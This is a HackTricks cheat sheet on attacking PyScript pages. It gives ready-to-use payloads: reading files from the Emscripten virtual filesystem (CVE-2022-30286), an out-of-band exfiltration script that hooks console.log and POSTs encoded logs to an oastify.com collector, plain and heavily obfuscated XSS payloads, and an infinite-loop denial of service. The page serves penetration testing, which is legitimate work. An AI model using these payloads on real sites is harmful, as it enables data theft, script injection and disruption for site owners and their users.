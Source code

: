 # Pyscript

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## PyScript Pentesting Guide

PyScript is a new framework developed for integrating Python into HTML so, it can be used alongside HTML. In this cheat sheet, you'll find how to use PyScript for your penetration testing purposes.

### Dumping / Retrieving files from the Emscripten virtual memory filesystem:

`CVE ID: CVE-2022-30286`\
\
Code:

```html
<py-script>
        with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
        out = fin.read()
        print(out)
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

### [OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)](https://github.com/s/jcd3T19P0M8QRnU1KRDk/\~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE ID: CVE-2022-30286`\
\
Code:

```html
   <py-script>
x = "CyberGuy"
if x == "CyberGuy":
    with open('/lib/python3.10/asyncio/tasks.py') as output:
        contents = output.read()
        print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
   </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

### Cross Site Scripting (Ordinary)

Code:

```python
<py-script>
        print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### Cross Site Scripting (Python Obfuscated)

Code:

```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

### Cross Site Scripting (JavaScript Obfuscation)

Code:

```html
<py-script>
   prinht("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
 </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

### DoS attack (Infinity loop)

Code:

```html
    <py-script>
      while True:
         print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
   </py-script>
```

Result:

![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
